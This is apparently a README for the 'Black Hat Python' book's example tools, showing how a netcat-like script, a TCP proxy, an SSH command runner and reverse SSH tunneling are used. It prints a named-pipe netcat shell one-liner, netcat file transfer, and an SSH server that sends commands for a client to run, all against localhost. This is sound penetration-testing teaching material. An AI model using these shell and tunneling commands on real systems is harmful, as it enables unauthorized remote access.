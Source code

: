 # bhp
Black Hat Python: Python Programming for Hackers and Pentesters

## BHP Net Tool
Replace netcat command with BHP Net Tool.

### TCP client
* netcat command

		$ echo -ne "GET / HTTP/1.1\r\nHost: www.google.com\r\n\r\n" | nc www.google.com 80

* BHP Net Tool

		$ echo -ne "GET / HTTP/1.1\r\nHost: www.google.com\r\n\r\n" | python bhnet.py -t www.google.com -p 80

### Execute shell command
* netcat command

	*server side:*

		$ mkfifo /tmp/f
		$ cat /tmp/f | /bin/sh -i 2>&1 | nc -l 127.0.0.1 5555 > /tmp/f

	*client side:*

		$ nc 127.0.0.1 5555
		ls -al

* BHP Net Tool

	*server side:*

		$ python bhnet.py -t 127.0.0.1 -p 5555 -l -c

	*client side:*

		$ python bhnet.py -t 127.0.0.1 -p 5555
		Ctrl-D
		<BHP:#> ls -al

	or more specifically ...

	*server side:*

		$ python bhnet.py -t 127.0.0.1 -p 5555 -l -e "ls -al"

	*client side:*

		$ python bhnet.py -t 127.0.0.1 -p 5555
		Ctrl-D


### Upload file
* netcat command

	*server side:*

		$ nc -l 127.0.0.1 5555 > /path/to/file

	*client side:*

		$ nc 127.0.0.1 5555 < /path/to/file

* BHP Net Tool

	*server side:*

		$ python bhnet.py -t 127.0.0.1 -p 5555 -l -u /path/to/file

	*client side:*

		$ python bhnet.py -t 127.0.0.1 -p 5555 < /path/to/file
		Ctrl-C

## TCP proxy
Capture http packet for example.

	$ python proxy.py 127.0.0.1 5555 www.google.com 80 False

	$ echo -ne "GET / HTTP/1.1\r\nHost: www.google.com\r\n\r\n" | python bhnet.py -t 127.0.0.1 -p 5555

## SSH

### Execute shell command through ssh

After the ssh connection establishment, server send a command to client. Then client execute a command and return result to server.

*server side:*

	$ python bh_sshserver.py 127.0.0.1 5555
	[+] Listening for connection ...
	[+] Got a connection!
	[+] Authenticated!
	ClientConnected
	Enter command: ls -la

*client side:*

	$ python bh_sshRcmd.py
	Welcome to bh_ssh

## Reverse SSH tunneling
Execute following command on your machine.

	$ python rforward.py sshserver:22 -p 5555 -r httpserver:80 --user username

Then your machine becomes sshclient and establish *reverse ssh tunneling* to sshserver:22.
sshserver listen 5555 port.
If httpclient connects to the sshserver:5555, the packet is forwarded to httpserver:80.

`httpserver` <---*tcp*---> `sshclient` <---*reverse ssh tunneling*---> `sshserver` <---*tcp*---> `httpclient`

The following ssh command is equivalent to the above.

	$ ssh -R 5555:httpserver:80 -p 22 username@sshserver
